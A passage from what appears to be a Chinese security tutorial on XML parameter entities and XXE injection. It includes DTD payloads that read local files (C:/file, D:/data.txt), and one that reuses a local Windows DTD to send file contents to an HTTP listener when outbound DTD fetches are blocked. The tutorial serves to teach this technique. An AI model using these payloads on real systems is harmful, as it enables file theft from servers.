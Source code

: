 为了减少重复定义某些元素，可以通过参数实体的方式进行定义，如

```xml
<!ELEMENT %res "name, sex, age">
```

然后通过%res进行引用

```xml
<!ELEMENT person1 (%res;)>
<!ELEMENT person2 (%res;)>
<!ELEMENT person3 (%res;)>
```

但是这种元素替换的方式**仅限于外部DTD**。在以上过程中，参数实体将元素组保存在DTD的外部子集中，因为内部子集有非常严格的校验，即标记声明中不允许引用参数实体，如下的参数实体引用是会失败的，抛出异常`java.io.IOException: org.xml.sax.SAXParseException: The parameter entity reference "%file;" cannot occur within markup in the internal subset of the DTD.`

![1574842595707](https://blog-1252261399.cos-website.ap-beijing.myqcloud.com/images/20200507103812.png)

这些实体可以定义DTD语法，但不能定义在另一个DTD标签中立即引用，如下面的使用也将失败：

```xml
<!ENTITY %res "name, sex, age">
<!ELEMENT person (%res;)>
```

但是，可以通过在外部参数实体中声明，在内部DTD子集中使用的形式：

```xml
<!DOCTYPE ANY [
        <!ENTITY % dtd SYSTEM "http://localhost/my.dtd">
<ANY>xxe</ANY>
```

远程my.dtd

```xml
<!ENTITY % file SYSTEM "file:///C:/file">
```

总结，对于上面定义的参数实体，需要注意的点是：

- 对参数实体的引用只能在DTD中发生；
- 参数实体不能在文档主体中使用；
- 内部DTD子集中的标记内不允许使用参数实体引用；
- 参数实体允许创建其他实体和参数实体；



### 问题2

无法向外请求dtd

假如目标系统存在防火墙，无法对外发起连接，就不能通过外部dtd注入了，此时可以利用系统本地已存在的dtd文件，覆盖其中的某个实体，通过报错形式进行利用

local.dtd

```xml
<?xml version="1.0" encoding="UTF-8"?>

        <!ENTITY % local_dtd SYSTEM "file:///C:\Windows\System32\xwizard.dtd">

        <!ENTITY % onerrortypes '(aa) #IMPLIED>
        <!ENTITY &#x25; file SYSTEM "file:///D:/data.txt">
        <!ENTITY &#x25; http "<!ENTITY &#x26;#x25; send SYSTEM &#x27;http://127.0.0.1:8080/&#x25;file;&#x27;>">
        &#x25;http;
        &#x25;send;
        <!ATTLIST xxe aa "bb" #IMPLIED'>
        %local_dtd;
        ]>
```
